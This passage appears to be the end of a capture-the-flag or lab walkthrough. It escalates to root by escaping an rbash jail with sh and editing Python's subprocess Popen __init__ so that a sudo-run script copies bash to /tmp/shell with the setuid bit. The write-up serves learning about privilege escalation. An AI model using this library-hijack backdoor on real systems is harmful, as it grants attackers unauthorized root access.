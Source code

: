 ```
   usuarios_conectados = [usuario.split()[0] for usuario in lista_usuarios]  
   mensaje = f"I have detected an intruder, stealing accounts: {', '.join(usuarios_conectados)}"  
   subprocess.run(['wall', mensaje])  
  
enviar_mensaje_usuarios_conectados()
```

Since the subprocess library is used, we can exploit the `__init__` function to execute a shell command when an instance of the Popen class is created. Before editing the file, we need to break out of the rbash jail we're currently in. Luckily, it's simple to break out of it, just by running `sh`. Let's edit that file now.
```
   def __init__(self, args, bufsize=-1, executable=None,  
                stdin=None, stdout=None, stderr=None,  
                preexec_fn=None, close_fds=True,  
                shell=False, cwd=None, env=None, universal_newlines=None,  
                startupinfo=None, creationflags=0,  
                restore_signals=True, start_new_session=False,  
                pass_fds=(), *, user=None, group=None, extra_groups=None,  
                encoding=None, errors=None, text=None, umask=-1, pipesize=-1,  
                process_group=None):  
       """Create new Popen instance."""  
       os.system("cp /bin/bash /tmp/shell; chmod 4755 /tmp/shell")  
       if not _can_fork_exec:  
           raise OSError(  
               errno.ENOTSUP, f"{sys.platform} does not support processes."  
           )
```

This is now what the `__init__` function looks like, and upon running the script with `sudo python3 /opt/reviewer.py`, we can now observe the `shell` file in the `/tmp` directory.
```
$ ls /tmp  
shell  systemd-private-8430ead48167419aadac0c6f73399289-systemd-logind.service-zl6npT  systemd-private-8430ead48167419aadac0c6f73399289-systemd-timesyncd.service-9P1VvU
```

Executing `/tmp/shell -p`, we are officially root. Wow, was that a long journey.
```
shell-5.2#
```